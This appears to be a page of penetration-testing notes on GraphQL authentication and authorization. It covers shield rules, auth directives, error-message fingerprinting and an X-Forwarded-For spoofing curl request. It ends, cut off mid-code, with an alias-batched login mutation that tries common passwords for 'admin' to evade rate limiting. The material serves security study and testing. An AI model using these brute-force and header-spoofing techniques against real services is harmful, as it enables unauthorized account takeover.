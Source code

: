 ```graphql
    },
    Fruit: isAuthenticated,
    Customer: isAdmin,
})
```

* **Custom schema directives** (e.g., `@auth`, `@protect`, or `@hasRole`) can enforce authorization rules at the schema level.

| Directive name | Argument name | Argument type |
| -------------- | ------------- | ------------- |
| @auth          | requires      | String        |
| @protect       | role          | String        |
| @hasRole       | role          | String        |

* Some APIs use **IP-based allow lists** for authorization, but these lack granularity.

{% code overflow="wrap" %}
```bash
curl -X POST http://localhost:5013/graphql -d '{"query":"{__typename }"}' -H "Content-Type: application/json" -H "X-Forwarded-For: 10.0.0.1"
```
{% endcode %}

### Detecting the Authentication Layer

* **Canary Queries**: Sending specific test queries can reveal how the API responds, indicating the presence of authentication mechanisms.
* **Analyzing Error Messages**: Error messages can provide clues about the authentication process.
* **Identifying Mutations**: Look for mutations like `login`, `signup`, `register`, `createUser`, or `createAccount` that hint at an authentication setup.

**Common GraphQL Authentication Errors**

<table><thead><tr><th width="404">Error message</th><th>Possible authentication implementation</th><th data-hidden></th></tr></thead><tbody><tr><td>Authentication credentials are missing. Authorization header is required and must contain a value.</td><td>OAuth 2.0 Bearer with JSON Web Token</td><td></td></tr><tr><td>Not Authorised!</td><td>GraphQL Shield</td><td></td></tr><tr><td>Not logged in  Auth required API key is required</td><td>GraphQL Modules</td><td></td></tr><tr><td>Invalid token! <br>Invalid role!</td><td>graphql-directive-auth</td><td></td></tr></tbody></table>



### Exploiting Authentication Controls

* **Brute-Forcing Passwords**:
  * **Query batching** can be used to bypass rate-limiting by combining multiple login attempts in a single request.

```bash
mutation {
    alias1: login(username: "admin", password: "admin") {
        accessToken
    }
    alias2: login(username: "admin", password: "password") {
        accessToken
    }
    alias3: login(username: "admin", password: "pass") {
        accessToken
    }
    alias4: login(username: "admin", password: "pass123") {
        accessToken
    }
    alias5: login(username: "admin", password: "password123")
    {
        accessToken
```